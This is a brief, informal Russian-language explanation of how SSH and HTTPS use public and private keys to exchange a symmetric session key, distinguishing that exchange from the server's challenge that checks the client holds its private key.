как ясно, соединение по ssh использует Асимметричное шифрование, так как есть приватный и публичный ключ.
например в процессе обмена ключами в HTTPS когда браузер клиента подключается к серверу:
То есть как вы понимаете в протоколе HTTPS используется ловкий способ - сервер отправляет публичный ключ клиенту, клиент шифрует свой симметричный ключ при помощи этого публичного ключа и отправляет серверу, сервер расшифровывает симметричный ключ от клиента при помощи своего приватного ключа, дальше используя симметричный ключ полученный от клиента, сервер начинает обмен данными с клиентом.
та же аналогия используется в любых протоколах передачи данных, которые используют приватный и публичный ключ.
но не следует путать два момента - как осуществляется передача шифровыннах данных (только что выше мы обсудили) и второе - когда сервер отправляет challenge клиенту для проверки владения клиентом приватного ключа.